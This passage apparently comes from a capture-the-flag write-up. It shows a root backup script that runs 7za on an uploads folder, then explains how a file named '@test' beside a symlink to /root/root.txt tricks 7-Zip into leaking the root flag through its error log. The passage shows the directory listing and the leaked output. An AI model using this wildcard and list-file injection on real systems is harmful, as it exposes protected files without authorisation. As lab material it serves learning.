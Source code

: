 ```sh
pass=$(openssl passwd -1 -salt 0xEA31 -in /root/root.txt | md5sum | awk '{print $1}')

# keep only last 10 backups
cd /backup
ls -1t *.zip | tail -n +11 | xargs rm -f

# get the files from the honeypot and backup 'em all
cd /var/www/html/uploads
7za a /backup/$filename.zip -t7z -snl -p$pass -- *

# cleaup the honeypot
rm -rf -- *

# comment the next line to get errors for debugging
truncate -s 0 /backup/error.log
```

When I look at the 7za man page, I see that there is a @listfiles argument I can pass at the end:

`7za <command> [<switches>... ] <archive_name> [<file_names>... ] [<@listfiles>... ]`

>You can supply one or more filenames or wildcards for special list files (files containing lists of files). The filenames in such list file must be separated by new line symbol(s).
>
>For list files, 7-Zip uses UTF-8 encoding by default. You can change encoding using -scs switch.
>
>Multiple list files are supported.
>
>For example, if the file "listfile.txt" contains the following:
>
>    My programs\*.cpp
>    Src\*.cpp
>then the command
>
>    7z a -tzip archive.zip @listfile.txt
>adds to the archive "archive.zip" all "*.cpp" files from directories "My programs" and "Src".


So by placing a file starting with an `@` character in the uploads folder, the 7-zip archiver will attempt to read a list of file to compress from the file name specified after the @ sign. By referencing a symlink to root.txt instead of a file containing filenames, 7-zip tries to read the flag and I can see it in the error log file.

```
drwxrwxrwx. 2 apache   apache    31 Feb  5 21:21 .
drwxr-xr-x. 6 root     root     176 Oct 23 22:14 ..
lrwxrwxrwx. 1 ldapuser ldapuser  14 Feb  5 21:21 test -> /root/root.txt
-rw-rw-r--. 1 ldapuser ldapuser   0 Feb  5 21:21 @test
```

After a minute, the script executes, gets the file to read from `@test` and then ...
```
lapuser@ctf backup]$ tail -f error.log


Command Line Error:
Cannot find listfile
listfile.txt
tail: error.log: file truncated

WARNING: No more files
fd6d2e...
```